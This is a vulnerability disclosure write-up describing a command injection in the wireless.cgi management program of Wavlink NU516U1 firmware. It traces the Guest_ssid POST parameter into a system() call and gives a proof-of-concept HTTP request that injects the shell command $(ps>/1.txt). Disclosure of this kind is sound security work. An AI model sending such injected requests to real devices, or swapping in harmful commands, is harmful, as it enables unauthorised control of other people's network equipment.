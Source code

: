 



## Vulnerability Overview

Wavlink is a company specializing in networking devices and communication solutions, offering high-quality routers, range extenders, and network accessories. In its WAVLINK-NU516U1 model firmware — which provides printer server NIC functionality — the management console contains a command injection vulnerability, allowing attackers to execute OS commands.

Firmware download link:
 https://docs.wavlink.xyz/Firmware/fm-516u1/

------

## Code Audit

After extracting the firmware using the command `binwalk -Me [firmware file]`, we locate the `wireless.cgi` program and open it with IDA.

(The reverse-engineering process produces lengthy pseudocode; here we only include the key snippets displayed by IDA.)

In the `main` function (displayed as `ftext` in IDA), the program first retrieves the value of the `page` parameter submitted by the user.

![](img/1.png)

If the `page` parameter is set to `GuestWifi`, the program jumps to the `sub_4032E4` function.

![](img/2.png)

Inside the `sub_4032E4` function, the program retrieves the value of the `Guest_ssid` parameter, which can be controlled via a POST request

![](img/3.png)

The `Guest_ssid` parameter value is then passed into the `sub_407504` function.

![](img/4.png)

Within that function, it is concatenated into the `v8` variable and passed to the `system` function for execution, resulting in a command injection.

![](img/5.png)

In the decompiled code, the `system` function appears to have an empty argument, but the assembly code still shows that its argument is `v8`.

## POC

```shell
POST /cgi-bin/wireless.cgi HTTP/1.1

Host: 10.10.10.2

Content-Length: 269

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.10.2

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.10.2/

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```


